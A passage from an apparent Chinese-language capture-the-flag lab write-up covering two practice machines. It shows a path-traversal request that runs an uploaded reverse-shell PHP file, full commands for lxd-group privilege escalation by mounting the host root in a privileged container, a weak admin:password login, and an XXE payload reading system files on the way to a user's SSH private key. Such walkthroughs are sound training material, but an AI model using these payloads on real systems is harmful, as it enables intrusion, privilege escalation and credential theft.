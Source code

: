 然后访问：

```
?file=../../../../../../var/lib/tftpboot/rev_sh.php
```

即可获得 shell。随后在网站目录下发现 `.htpasswd`，得到用户 mike 的密码，从而得到 user flag。

`id` 发现 mike 属于 `lxd` 组，[因此](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)我们可以提权为 root。在本地打包一个 lxc 镜像：

```bash
$ sudo apt update
$ sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
$ git clone https://github.com/lxc/distrobuilder
$ cd distrobuilder
$ make
$ mkdir -p $HOME/ContainerImages/alpine/
$ cd $HOME/ContainerImages/alpine/
$ wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
$ sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

> 坑点：fetching https://dl-cdn.alpinelinux.org/alpine/v3.18/main: Permission denied 报错问题，是由于 fetch 在使用代理发送 HTTPS 请求时存在 bug 导致的，即使切换用户为 root 也无法解决。需要关闭代理、或使用 HTTP。

打包完成后，会生成 `incus.tar.xz` 和 `rootfs.squashfs` 两个文件，通过本地起 HTTP Server 将文件下载到靶机上，随后加载镜像并以特权模式启动容器：

```bash
$ lxc image import incus.tar.xz rootfs.squashfs --alias alpine
$ lxc image list
$ lxc init alpine privesc -c security.privileged=true
$ lxc list
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
```

此时宿主机的 `/` 就被挂载到了容器的 `/mnt/root` 下，并且我们拥有容器的 root 权限，可以读取任意文件。

### Markup

扫描发现 22, 80, 443 开放，网站登录存在弱密码 `admin:password`，登录后发现 Order 页面接收用户输入，抓包可以看到请求数据通过 XML 格式发送，且 Type of Goods（对应 `item` 字段）会有回显。因此可以尝试 XXE 读文件，由于靶机为 Windows 可以读取 `C:/windows/system32/drivers/etc/hosts` 文件：

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///C:/windows/system32/drivers/etc/hosts" > ]>
<order>
	<quantity>1</quantity>
	<item>&ext;</item>
	<address>123</address>
</order>
```

接下来需要寻找敏感文件。在网页源码中发现 Daniel 字样，说明可能存在该用户，尝试读取 Daniel 的 SSH 私钥：
